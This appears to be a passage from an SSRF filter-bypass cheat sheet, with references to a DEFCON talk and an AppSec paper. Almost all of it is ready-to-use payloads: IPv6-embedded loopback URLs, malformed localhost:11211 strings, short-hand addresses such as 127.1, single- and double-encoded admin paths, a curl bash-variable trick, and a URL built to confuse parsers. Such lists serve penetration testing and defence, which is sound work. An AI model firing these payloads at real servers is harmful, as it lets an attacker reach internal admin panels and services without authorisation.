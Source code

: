 Ref: 
- [DEFCON 29-KellyKaoudis SickCodes-Rotten code, aging standards & pwning IPv4 parsing](https://www.youtube.com/watch?v=_o1RPJAe4kU)
- [AppSecEU15-Server_side_browsing_considered_harmful.pdf](https://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf)


### Bypass using IPv6/IPv4 Address Embedding

[IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

```powershell
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
```

### Bypass using malformed urls

```powershell
localhost:+11211aaa
localhost:00011211aaaa
```

### Bypass using rare address

You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass using URL encoding

[Single or double encode a specific URL to bypass blacklist](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

```powershell
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

### Bypass using bash variables 

(curl only)

```powershell
curl -v "http://evil$google.com"
$google = ""
```

### Bypass using tricks combination

```powershell
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```
